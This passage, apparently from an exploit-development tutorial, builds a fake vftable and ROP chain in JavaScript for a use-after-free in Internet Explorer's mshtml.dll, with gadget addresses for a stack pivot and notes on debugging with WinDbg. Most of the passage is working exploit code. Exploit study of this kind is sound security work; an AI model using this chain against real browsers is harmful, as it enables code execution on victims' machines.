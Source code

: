 ```js
rop += "\u4343\u4343";
rop += "\u4343\u4343";
rop += "\u4343\u4343";
rop += "\u4343\u4343";

// Combine everything
vftable += rop;
```

<img src="{{ site.url }}{{ site.baseurl }}/images/browser32.png" alt="">

Great! We can see that our crash still occurs properly, the instruction pointer is controlled, and we have added to our fake vftable, which is now located on the stack! In terms of exploitation strategy, notice there still remains a pointer on the stack that is our original `xchg eax, esp` instruction. Because of this, we will need to actually start our ROP chain _after_ this pointer, since it already has been executed. This means that our ROP gadget should start where the `43434343` bytes begin, and the `41414141` bytes can remain as padding/a jump further into the fake vftable.

It should be noted that from here on out, I had issues with setting breakpoints in WinDbg with Internet Explorer processes. This is because Internet Explorer forks many processes, depending on how many tabs you have, and our code, even when opened in the original Internet Explorer tab, will fork another Internet Explorer process. Because of this, we will just continue to use WinDbg as our postmortem debugger for the time being, and making changes to our ROP chain, then viewing the state of the debugger to see our results. When necessary, we will start debugging the parent process of Internet Explorer and then WinDbg to identify the correct child process and then debug it in order to properly analyze our exploit.

We know that we need to change the rest of our fake vftable DWORDS with something that will eventually "jump" over our previously used `xchg eax, esp ; ret` gadget. To do this, let's edit how we are constructing our fake vftable.

```js
// Create the fake vftable of 70 DWORDS (70 "functions")
// Start the table with ROP gadget that increases ESP (Since this fake vftable is now on the stack, we need to jump over the first 70 "functions" to hit our ROP chain)
// Otherwise, the old xchg eax, esp ; ret stack pivot gadget will get re-executed
vftable = "\u07be\u74fb";                   // add esp, 0xC ; ret (74fb07be) (mshtml.dll)

for (i=0; i < 0x70/4; i++)
{
// This is where execution will reach when the fake vtable is indexed, because the use-after-free vulnerability is the result of a virtaul function being fetched at [eax+0x70]
// which is now controlled by our own chunk
if (i == 0x70/4-1)
{
  vftable+= unescape("\ua1ea\u74c7");     // ﻿xchg eax, esp ; ret (74c7a1ea) (mshtml.dll) Get control of the stack
}
else if (i == 0x68/4-1)
{
  vftable += unescape("\u07be\u74fb");    // add esp, 0xC ; ret (74fb07be) (mshtml.dll) When execution reaches here, jump over the xchg eax, esp ; ret gadget and into the full ROP chain
}
else
{
  vftable+= unescape("\u7738\u7503");     // ret (75037738) (mshtml.dll) Keep perform returns to increment the stack, until the final add esp, 0xC ; ret is hit
}
}

// ROP chain
rop = "\u9090\u9090"; 					  // Padding for the previous ROP gadget (add esp, 0xC ; ret)

// Our ROP chain begins here
```